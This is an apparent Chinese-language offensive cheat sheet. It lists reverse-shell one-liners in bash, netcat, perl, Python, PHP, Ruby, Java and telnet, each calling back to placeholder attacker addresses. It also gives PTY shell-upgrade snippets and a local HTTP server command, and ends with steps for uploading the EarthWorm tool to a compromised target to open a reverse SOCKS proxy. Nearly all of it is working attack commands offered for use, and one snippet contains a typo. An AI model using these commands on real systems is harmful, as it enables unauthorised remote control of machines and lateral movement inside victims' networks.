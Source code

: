
## 反弹shell

Bash反弹shell
```bash
/bin/bash -c bash -i >& /dev/tcp/x.x.x.x/12345 0>&1
```
NC反弹shell
```bash
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 12388 >/tmp/f
```
perl反弹shell
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
Python反弹shell
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
PHP
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
Telnet
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```
获取反弹shell后，可使用python获得交互式shell
```python
python -c'import pty; pty.spawn("/bin/bash")'
python -c '''
import pty
while(1):
    try:
        pty.spawn("/bin/bash")
    except :
        contiune'''
```        


## 开启本地网络

python:

```python
2
python -m SimpleHTTPServer 8080
3
python3 -m http.server
```


## ew

http://rootkiter.com/EarthWorm

通过远控上传ew.exe
然后在本地执行：ew.exe -s rcsocks -l 1008 -e 888
说明：监听888端口，把接收到的数据转到本地的1008端口。

在目标上执行ew.exe -s rssocks -d 10.10.10.10 -e 888
说明：开启sockes 并反弹到ip地址为10.10.10.10 端口为888
反弹代理成功以后，本地会出现rssocks cmd_socket ok!

现在打开我们的SocksCap64，新建一个代理。
ip为127.0.0.1端口为1008，配置好了以后，点击保存。
现在我们把需要走代理的工具都放到SocksCap64里面。